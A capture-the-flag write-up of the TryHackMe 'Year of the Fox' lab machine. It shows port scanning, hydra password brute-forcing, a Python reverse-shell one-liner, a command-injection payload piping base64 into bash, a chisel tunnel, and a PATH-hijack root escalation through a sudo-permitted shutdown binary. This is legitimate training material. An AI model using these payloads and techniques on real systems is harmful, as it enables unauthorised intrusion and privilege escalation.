



| Link | Level | Creator |
|------|-------|---------|
| [Here](https://tryhackme.com/room/yotf)  | Hard  |  [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle)  |

## Reconn

Let's start with a normal `nmap` scan.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.174.23 -p- -sS --min-rate 5000 -n -Pn                                                                                                ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-17 12:33 CEST
Nmap scan report for 10.10.174.23
Host is up (0.083s latency).
Not shown: 65532 closed ports
PORT    STATE SERVICE
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 24.37 seconds
```
Great! We have a web server and a microsoft-ds service running!

Let's scan the file sharing server with `enum4linux`.

```bash
╰─ lanfran@parrot ❯ enum4linux 10.10.174.23                                                                                                                           ─╯
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Oct 17 12:34:44 2021

 ========================== 
|    Target Information    |
 ========================== 
Target ........... 10.10.174.23
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==================================================== 
|    Enumerating Workgroup/Domain on 10.10.174.23    |
 ==================================================== 
[...]
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\fox (Local User)
S-1-22-1-1001 Unix User\rascal (Local User)
[...]
```
Woho! More information! We have 2 users now:
	`Fox`
	`Rascal`

So let's go to the web server now.

## Foothold - User



Ups, it's requesting us a password and an user, maybe we can bruteforce it with `hydra` and the users that we found before...
```bash
╰─ lanfran@parrot ❯ hydra -l rascal -P /usr/share/wordlists/rockyou.txt -u  -s 80  10.10.174.23 http-head /                                                              ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:38:59
[WARNING] http-head auth does not work with every server, better use http-get
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-head://10.10.174.23:80/
[STATUS] 3492.00 tries/min, 3492 tries in 00:01h, 14340907 to do in 68:27h, 16 active
[80][http-head] host: 10.10.174.23   login: rascal   password: marinel
```
Yes! It worked! We can now login to the page and see what's inside _(BTW, I'm not removing the cracked password because this machine changes the password in every reboot...)_



Mmmm... A simple page with an input...


After a lot of reserching, we can get a reverse shell from there with this exploit:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_ip",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 

-----

"\";echo "paste your base64 encoded payload here" | base64 -d | bash;\""
```
Run it with `Burp Suite` or even with `cURL`.



And we are in, we now can read the web flag!
```bash
www-data@year-of-the-fox:/var/www$ cat web-flag.txt 
THM{[REDACTED]}
```
Digging around, I found that the port `22` is open and listening but just in for the local machine, so we have to create a tunnel and we can bruteforce it!
```bash
$ netstat -tulwn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN     
tcp6       0      0 :::139                  :::*                    LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::445                  :::*                    LISTEN     
udp        0      0 10.10.255.255:137       0.0.0.0:*                          
udp        0      0 10.10.174.23:137        0.0.0.0:*                          
udp        0      0 0.0.0.0:137             0.0.0.0:*                          
udp        0      0 10.10.255.255:138       0.0.0.0:*                          
udp        0      0 10.10.174.23:138        0.0.0.0:*                          
udp        0      0 0.0.0.0:138             0.0.0.0:*                          
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 10.10.174.23:68         0.0.0.0:*                          
raw6       0      0 :::58                   :::*                    7          
$ 
```
Let's create the tunnel now with `chisel`. _Please note that chisel isn't installed on the machine, so I had to upload an static binary._
```bash
[Attacker Machine]

╰─ lanfran@parrot ❯ ./chisel server -p 4444 --reverse &                                                                                                                 ─╯
[1] 1717758
2021/10/17 12:56:35 server: Reverse tunnelling enabled                                                                                                                     
2021/10/17 12:56:35 server: Fingerprint V4me3/cc0B0GtMPIyoYclwAhXCzh24uFYKuxh3M+jcY=
2021/10/17 12:56:35 server: Listening on http://0.0.0.0:4444

--------
[Victim Machine]

www-data@year-of-the-fox:/tmp$ ./chisel client 10.9.4.36:4444 R:2222:127.0.0.1:22
2021/10/17 11:58:01 client: Connecting to ws://10.9.4.36:4444
2021/10/17 11:58:01 client: Connected (Latency 54.77722ms)
```
Great, since now we can see the `22` open port on the machine, on our local port `2222`, let's brute force with the user `fox`.

```bash
╰─ lanfran@parrot ❯ hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 2222 127.0.0.1 ssh                                                                           ─╯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-10-17 12:57:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
[2222][ssh] host: 127.0.0.1   login: fox   password: roberto
```
Great! we have the password, let's now login via `ssh` and read the user's flag.

```bash
╰─ lanfran@parrot ❯ ssh -p 2222 fox@localhost                                                                                                                           ─╯
fox@localhost's password: 


	__   __                       __   _   _            _____         
	\ \ / /__  __ _ _ __    ___  / _| | |_| |__   ___  |  ___|____  __
	 \ V / _ \/ _` | '__|  / _ \| |_  | __| '_ \ / _ \ | |_ / _ \ \/ /
	  | |  __/ (_| | |    | (_) |  _| | |_| | | |  __/ |  _| (_) >  < 
	  |_|\___|\__,_|_|     \___/|_|    \__|_| |_|\___| |_|  \___/_/\_\


                                                                  
fox@year-of-the-fox:~$ cat user-flag.txt 
THM{[REDACTED]}
fox@year-of-the-fox:~$ 
```
## Root

To escalate to root, we will need to find a way to exploit a binary, that we can run with sudo.
```bash
fox@year-of-the-fox:~$ sudo -l
Matching Defaults entries for fox on year-of-the-fox:
    env_reset, mail_badpass

User fox may run the following commands on year-of-the-fox:
    (root) NOPASSWD: /usr/sbin/shutdown
```
A few things going on here. The `secure_path` isn't set, and we have a binary, that after doing a little reversing, we can see that is using another binary, `poweroff`.
```bash
╰─ lanfran@parrot ❯ strings shutdown                                                                                                                                                                    ─╯
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
AWAVI
AUATL
[]A\A]A^A_
poweroff.  <------- HERE
```
So, to recap, we can create a malicious binary to act as `poweroff` and set the `$PATH` to our current working directory. So let's do it!
```bash
fox@year-of-the-fox:/tmp$ cp /bin/bash poweroff
fox@year-of-the-fox:/tmp$ sudo "PATH=/tmp:$PATH" /usr/sbin/shutdown
root@year-of-the-fox:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
And we got it! 
Now for the remaining root's flag, let's read the file that's on `/home/rascal/` and remove all the break lines.
```bash
root@year-of-the-fox:/tmp# ls -la /home/rascal/
total 24
drwxr-x--- 2 rascal rascal 4096 Jun  1  2020 .
drwxr-xr-x 4 root   root   4096 May 28  2020 ..
lrwxrwxrwx 1 root   root      9 May 28  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rascal rascal  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 rascal rascal 3771 Apr  4  2018 .bashrc
-r-------- 1 rascal root    158 Jun  9  2020 .did-you-think-I-was-useless.root
-rw-r--r-- 1 rascal rascal  807 Apr  4  2018 .profile
root@year-of-the-fox:/tmp# cat /home/rascal/.did-you-think-I-was-useless.root | tr -d '\n'
THM{[REDACTED]]}Here's the prize:YTAyNzQ3ODZlMmE2MjcwNzg2NjZkNjQ2Nzc5NzA0NjY2Njc2NjY4M2I2OTMyMzIzNTNhNjk2ODMwMwo=Good luck!
```

And we rooted the machine!

That's all from my side, hope you find this helpful!